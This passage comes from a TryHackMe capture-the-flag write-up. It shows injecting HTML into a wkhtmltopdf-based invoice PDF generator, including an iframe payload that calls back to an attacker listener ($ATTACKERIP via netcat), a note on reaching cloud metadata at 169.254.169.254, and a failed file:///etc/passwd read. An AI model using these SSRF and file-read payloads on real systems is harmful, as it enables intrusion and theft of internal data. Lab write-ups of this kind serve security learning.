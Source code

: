 
![Pasted image 20220420145217.png](attachments/Pasted%20image%2020220420145217.png)

Now if the `PDF` generator is vulnerable, we should get back a `PDF` file containing the number **1337**:

![Pasted image 20220419113417.png](attachments/Pasted%20image%2020220419113417.png)

Heureka! The concept has been proven. How about forging external requests? The presentation linked earlier goes through it as well. First, we should start a `netcat` listener on a chosen port, like **1234**:

```zsh
lassi@kali:~$ nc -lvnp 1234
listening on [any] 1234 ...
```

Now, let's go through the same steps as in the initial **PoC**, but have the payload as this:

```html 
<iframe src="http://$ATTACKERIP:1234/> 
```

Hooray, we receive a connection in the form of a `HTTP` request:

```zsh
connect to [$ATTACKERIP] from (UNKNOWN) [$TARGETMACHINEIP] 49508
GET /%3E%3C/td%3E%3C/tr%3E%3C/table%3E%3C/td%3E%3C/tr%3E%3Ctr%20class= HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.34 (KHTML, like Gecko) wkhtmltopdf Safari/534.34
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://internal.seasurfer.thm/invoice.php?name=lassi&payment=Credit+card&comment=%3Ciframe+src%3D%22http%3A%2F%2F$ATTACKERIP%3A1234%2F%3E&item1=bogus&price1=999&id=19042022-8pTP7gaajWwf7SJfcb9A
Connection: Keep-Alive
Accept-Encoding: gzip
Accept-Language: en,*
Host: $ATTACKERIP:1234
```

If we were not in CTF land, we could try to abuse the link-local address `169.254.169.254` to perhaps gain access to the cloud metadata and other sensitive information, like [this](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html). But for **TryHackMe**, that's out of scope.

How about accessing internal files from the server, leveraging the initial server-side `XSS` to `SSRF` to `LFI`?

`<iframe>` tags should support the `file://` **URI scheme**. Let's try this payload:

```html 
<iframe src="file:///etc/passwd"> 
```

Damn. Dead end.

![Pasted image 20220423014719.png](attachments/Pasted%20image%2020220423014719.png)
